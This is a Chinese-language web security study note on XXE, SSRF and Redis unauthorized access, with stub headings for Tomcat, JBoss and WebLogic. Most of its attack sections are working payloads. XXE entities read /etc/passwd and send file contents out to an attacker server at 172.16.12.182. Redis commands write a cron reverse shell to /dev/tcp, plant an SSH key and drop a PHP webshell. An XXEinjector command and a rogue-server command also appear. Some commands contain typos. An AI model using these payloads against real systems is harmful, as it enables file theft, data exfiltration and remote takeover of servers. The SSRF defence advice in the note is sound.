



# XXE 	

## XML

### **定义**

​		xml是可扩展标记语言，用于网络数据的转换和描述，目的是为了传输数据

### **语法结构**

​	标签的定义以及标签的解释

​	`<?xml version='' encoding="utf-8"?>`


```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>

```

```xml
<!ENTITY xxe "hello">
<!ENTITY xxe1 SYSTEM "/etc/passwd"
<to>$xxe</to>
<!ENTITY % xxe "hello"> 参数实体，内部声明
<!ENTITY % xxe1 SYSTEM "/etc/passwd"> 参数实体，外部声明
```

### XML实体

xml实体：XML语言的变量，和PHP,JSP等语言变量一样，有变量名，变量值，通过&/%进行调用

xml实体类型

|   类型   |                  普通实体                  |                 参数实体                 |
| :------: | :----------------------------------------: | :--------------------------------------: |
| 使用场合 |                 xml文档中                  |                dtd文档中                 |
|   声明   |        内部`<!ENTITY name "value">`        |        `<!ENTITY % name "value">`        |
|          | 外部`<!ENTITY name SYSTEM "外部文件地址">` | `<!ENTITY % name SYSTEM "外部文件地址">` |
| 引用方式 |                   &name;                   |    %name; 声明中间有空格，引用时没有     |

## **XXE漏洞**

### **原理**

​		解析XML文件时加载了外部实体，没有过滤用户提交的参数，造成恶意XML代码被带入到XML解析器中解析执行，称为XML外部实体注入

```xml
#payload:
<!DOCTYPE user [
	<!ENTTY user1 SYSTEM "/etc/passwd">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```


### **XXE漏洞利用**

#### **任意文件读取**

1. 伪协议进行读取文件内容（base64编码）

```xml
<!DOCTYPE user [
	<!ENTITY user1 SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```


data伪协议

```xml
<!DOCTYPE user [
	<!ENTITY user1 SYSTEM "data://text/plain,123">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```


#### 外带数据


```dtd
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">

<!ENTITY % xx "<!ENTITY send SYSTEM 'http://172.16.12.182:9999/1.php?data=%xxe;'>"> 

%xx;
```

payload:

```
<!DOCTYPE user[
<!ENTITY % load SYSTEM "http://172.16.12.182:9999/test.dtd">
 %load;
]>
<user><username>&send;</username><password>1231238WVcxQ</password></user>
```


#### xxeinject.rb使用

xxeinject --file=文件地址  --path=读取目标文件  --host=攻击的接收服务器                                               

```ruby
ruby XXEinjector.rb --file=D:\safetools\注入\XXEinjector\xxe2.txt --path=/etc/my.cnf --host=172.16.12.182 --httpport=9999 --phpfilter --verbose --oob=http
```


# SSRF

###  漏洞概述

​		服务器端请求伪造，由攻击者构造形成由服务器发起请求的安全漏洞。SSRF的目标是从外网无法访问的内部系统。可以请求到与相连儿与外网隔离的内部系统。

### 漏洞危害

- 端口扫描
- 内网web应用指纹识别
- 攻击内网web应用
- 读取本地文件

### 漏洞防御和修复

- 限制请求的端口只能为web端口，只允许访问HTTP和https的请求
- 设置白名单，限制内网IP，以防止对内网进行攻击
- 禁止重定向
- 屏蔽返回的详细信息




/etc/udev/rules.d/70-persistent.net.rules 存储网卡信息

gopher://192.168.225.1/_1

dict://192.168.225.1/_123(可读6379，读不出22)


/etc/resolv.conf  dns文件地址

### SSRF漏洞利用


- 端口探测（结合XML实体注入攻击）

  对端口发起请求

  

- Redis配合gopher进行SSRF

  

  

  

  

#### SSRF绕过


**01SSRF概念**

服务端请求伪造(Server-Side Request Forgery),指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。


**02SSRF的原理**

很多web应用都提供了从其他的服务器上获取数据的功能。使用指定的URL，web应用便可以获取图片，下载文件，读取文件内容等。SSRF的实质是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。一般情况下， SSRF攻击的目标是外网无法访问的内部系统，黑客可以利用SSRF漏洞获取内部系统的一些信息（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）。SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。


**03SSRF的主要攻击方式**

攻击者想要访问主机B上的服务，但是由于存在防火墙或者主机B是属于内网主机等原因导致攻击者无法直接访问主机B。而服务器A存在SSRF漏洞，这时攻击者可以借助服务器A来发起SSRF攻击，通过服务器A向主机B发起请求，从而获取主机B的一些信息。


**04SSRF的危害**

1.内外网的端口和服务扫描

2.攻击运行在内网或本地的应用程序

3.对内网web应用进行指纹识别，识别企业内部的资产信息

4.攻击内网的web应用，主要是使用GET参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）

5.利用file协议读取本地敏感数据文件等


**05SSRF漏洞复现**

**1.探测内部主机的任意端口**

①利用vulhub进行漏洞复现，SSRF漏洞存在于[http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp](https://link.zhihu.com/?target=http%3A//your-ip%3A7001/uddiexplorer/SearchPublicRegistries.jsp)


②提交参数值为url:port，根据返回错误不同，可对内网状态进行探测如端口开放状态等。

在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如[http://127.0.0.1:7001](https://link.zhihu.com/?target=http%3A//127.0.0.1%3A7001)。根据返回错误不同，可对内网状态进行探测如端口开放状态等。


③当我们访问一个不存在的端口时，比如 [http://127.0.0.1:7000](https://link.zhihu.com/?target=http%3A//127.0.0.1%3A7000)，将会返回：could not connect over HTTP to server


④当我们访问存在的端口时，比如 [http://127.0.0.1:7001](https://link.zhihu.com/?target=http%3A//127.0.0.1%3A7001)。可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回：did not have a valid SOAP content-type


**2.利用ssrf获取内网敏感文件信息**

①在服务器上有一个ssrf.php的页面，该页面的功能是获取URL参数，然后将URL的内容显示到网页页面上。


②我们访问该链接：http://127.0.0.1/ssrf.php?url=http://127.0.0.1/test.php ，它会将test.php页面显示


③如果我们把url的参数换成 [http://www.baidu.com](https://link.zhihu.com/?target=http%3A//www.baidu.com) ，页面则会返回百度的页面


④于是我们可以将URL参数换成内网的地址，则会泄露服务器内网的信息。将URL换成file://的形式，就可以读取本地文件。


**06防御方式**

1、过滤返回的信息，如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

2、统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。

3、限制请求的端口，比如80,443,8080,8090。

4、禁止不常用的协议，仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp://等引起的问题。

5、使用DNS缓存或者Host白名单的方式。

## redis未授权访问

Redis因配置不当可以未授权访问（窃取数据、反弹shell、数据备份操作主从复制、命令执行）。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行flushall来清空所有数据。攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。

redis3.2版本后新增protected-mode配置，默认是yes，即开启。设置外部网络连接redis服务，设置方式如下：

1、关闭protected-mode模式，此时外部网络可以直接访问

2、开启protected-mode保护模式，需配置bind ip或者设置访问密码


#### redis的使用

```redis
set key value  #设置键值

get key   #获取键的值

config  #配置

keys *   #查看所有键

save #保存

config set dir /    #设置保存路径

config set dbfilename xxx.php #保存文件
```

crontab -e 设置定时任务

/cron/root     root权限

#### 漏洞利用

```redis
#未授权访问redis反弹shell的姿势
config set dir /root/spoo/cron/
#设置文件保存路径
config set dbfilename root
#设置文件保存名
set key "\n\n\n\*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.21.107/9999 0>&1\n\n\n"
#设置键值对
save
#保存倒文件
```

```redis
#写入公钥的姿势   如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。
config ser dir /root/.ssh/    

config set dbfilename authorized_keys

set a  "\\n\\n\\n公钥\\n\\n\\n"(前后加换行)

save

```

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell。

```redis
Copy192.168.63.130:6379> config set dir /var/www/html/
OK
192.168.63.130:6379> config set dbfilename shell.php
OK
192.168.63.130:6379> set x "<?php phpinfo();?>"
OK
192.168.63.130:6379> save
OK
```

#### 主从复制

```sh
#主机
slaveof 192.168.21.246 6379 设置从机

get key

#从机
redis-cli -h 192.168.21.246 -p 6379

get key 


主机写so文件

僚机-->fullresync 同步

​		-->module load 加载so文件

​		-->system.exe


```

gopher

### Tomcat漏洞

轻量应用服务器，与Apache独立的进程单独运行

Tomcat运行在Windows主机上，开启了HTTP PUT请求方法，通过构造的攻击请求向服务器上传包含任意代码的文件


rides-roguo-server.py --rhost=目标IP --rpost=端口 --loost=记载的节点服务器 -lport=节点服务器端口



#### JBoss


### weblogic




